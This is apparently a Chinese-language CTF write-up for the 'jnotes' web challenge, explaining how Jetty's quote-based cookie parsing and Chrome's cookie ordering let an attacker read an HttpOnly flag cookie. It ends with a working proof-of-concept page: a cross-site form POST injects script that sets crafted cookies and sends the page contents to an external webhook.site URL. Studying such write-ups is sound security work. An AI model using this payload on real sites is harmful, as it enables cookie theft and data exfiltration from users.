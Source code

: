 ```yaml
---
tags:
  - Cookie
---
```


# Jnotes

这题的关键是如何 bypass httponly 拿 cookie
admin-bot 可以直接访问一个页面，且环境中的 `create` 路由没有同源策略。

```java
"""<html>
<head></head>
<body>
<h1>jnotes</h1>

<form method="post" action="create">
<textarea rows="20" cols="50" name="note">
%s
</textarea>
<br>
<button type="submit">Save notes</button>
</form>

<hr style="margin-top: 10em">
<footer>
<i>see something unusual on our site? report it <a href="https://adminbot.mc.ax/web-jnotes">here</a></i>
</footer>
</body>
</html>""".formatted(note));
```

利用了 Jetty webserver 的特性：当读取 cookie 时如果读到一个 `"`，那么它会一直读到下一个 `"` 闭合，从而忽略分号。

[CookieCutter.java#L227](https://github.com/eclipse/jetty.project/blob/016de2faebdd9ac90f00df9ac4bc7c74193e68e6/jetty-http/src/main/java/org/eclipse/jetty/http/CookieCutter.java#L227)

> - the browser sends the cookie header: `note="a; FLAG=dice{flag}; end=b";`
> - but Jetty will parse it as a single cookie: note=`a; FLAG=dice{flag}; end=b;`

然后控制 cookie 解析顺序

- chrome orders cookies by longest path length first, then least recently updated first.

![202302142012556](https://cdn.silente.top/img/202302142012556.png)

poc 页面

```html
<!DOCTYPE html>
<html lang="en">
  <body>
    <form method="POST" action="https://jnotes.mc.ax/create">
      <input id="p" name="note" value="" />
    </form>

    <script>
      document.querySelector("#p").value = `</textarea>
      <\x73cript>
      if (window.location.pathname !== "//") {
        document.cookie = 'note="a; path=//';
        document.cookie = 'note=se';
        document.cookie = 'END=ok" ; path=';
        w = window.open('https://jnotes.mc.ax//');
        setTimeout(()=>{
          ex = w.document.body.innerHTML;
          navigator.sendBeacon('https://webhook.site/5ec3a26c-4e09-435c-87fe-1213f9f0ce0f', ex);
        }, 500);
      }
      </\x73cript>`;
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![202302142022745](https://cdn.silente.top/img/202302142022745.png)